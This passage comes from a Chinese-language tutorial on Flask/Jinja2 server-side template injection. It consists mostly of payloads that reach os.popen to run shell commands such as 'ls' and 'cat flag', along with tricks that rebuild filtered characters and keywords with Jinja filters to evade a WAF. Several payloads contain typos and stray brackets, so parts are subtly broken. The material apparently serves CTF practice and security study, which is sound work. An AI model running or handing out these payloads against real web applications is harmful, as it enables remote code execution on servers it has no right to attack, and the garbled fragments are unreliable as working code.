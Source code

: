 如果数字被过滤可以这样绕过：

```
{% set a=’aaaaaaaaaa’|length %}{{“”.__class__.__bases__.__subclasses__()[a].__init__.__ globals__[‘os’].popen(“ls”).read()}}
```

# 15.绕过符号过滤

利用flask内置函数和对象获取符号

```
{% set a=({}|select()|string()) %}{{a}} #获取下划线

{% set a=({}|self|string()) %} {{a}} #获取空格

{% set a=(self|string|urlencode) %}{{a}}  #获取百分号

{% set a=(app.__doc__|string) %}{{a}}
```

# 16.SSTI混合过滤绕过

## 实例解析1——WAF过滤’，”，+,request,[]

Payload原型：

```
{{().__class__.__base__}}
```

绕过：

```
{% set a=dict(__class__=1)|join%)%}{%set b=dict(__base__=1)|join%}{{()|attr(a)|attr(b)}}
```

join会把字典（dict）里的键名都拼接起来，至于键的值是什么不重要，可以是__class__=1也可以是__class__=111

最终payload示例：

```
{% set a=dict(__class__=1)|join%)%}

{%set b=dict(__base__=1)|join%}

{%set c=dict(__subclasses__=1)|join%}

{%set d=dict(__getitem__=1)|join%}

{%set e=dict(in=1,it =2)|join%}

{{%set f=dict( glo=1,bals =2)|join%}

{%set g=dict(popen=1)|join%}

{%set kg={}|select()|string()|attr(d)(10)%}

{%set i=(dict(cat=1)|join,kg,dict(flag=2)|join)|join%)

{%set r=dict(read=1)|join%}

{{()|attr(a)|attr(b)|attr(c)()|attr(d)(117)|attr(e)|attr(f)|attr(d)(g)(i)|attr(r)()}}

```

